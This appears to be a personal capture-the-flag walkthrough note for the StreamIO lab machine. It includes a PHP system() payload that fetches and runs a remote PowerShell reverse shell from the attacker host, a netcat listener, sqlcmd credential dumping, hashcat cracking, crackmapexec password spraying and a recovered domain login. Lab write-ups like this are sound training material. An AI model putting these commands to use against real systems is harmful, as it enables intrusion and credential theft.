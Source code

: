 https://github.com/antonioCoco/ConPtyShell/blob/master/Invoke-ConPtyShell.ps1

Replace `ippsec.php` with 

`system("powershell IEX(IWR http://10.10.14.8/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.8 9001`

Then start netcat listener thang on attacker box

`stty raw -echo; (stty size; cat) | nc -lvnp 9001`

Send request on Burp again.

Finally got reverse shell:

![[Pasted image 20250106205230.png]]
Remembering from recon that there is a `streamio_backup` database.

Also finally using the admin creds discovered within `index.php` with #sqlcmd to find even more valid creds. 

Dump the backup database with

`sqlcmd -U db_admin -p 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP; select username, password from users;'`

![[Pasted image 20250106205741.png]]
Copy this info and save on local box. Remove spaces for cracking in #hashcat 

`./hashcat.bin -m 0 --user hashes/streamio2.hashes /opt/wordlist/rockyou.txt`

![[Pasted image 20250106210150.png]]

`./hashcat.bin -m 0 --user hashes/streamio2.hashes --show

![[Pasted image 20250106210240.png]]

Doing the awk thing again. 

![[Pasted image 20250106210335.png]]
Creating users.txt

`cat user.hash.pw.txt | awk -F: '{print $1}' › users.txt`

Creating pw.txt 

`cat user.hash.pw.txt | awk -F: '{print $3}' > pw.txt`

![[Pasted image 20250106210520.png]]

Using #crackmapexec 

`cme smb 10.10.11.158 -u users.txt -p pw.txt --no-bruteforce`

![[Pasted image 20250107204642.png]]

Found one successful login:

`streamI0.htb\nikk37:get_dem_girls2@yahoo.com`
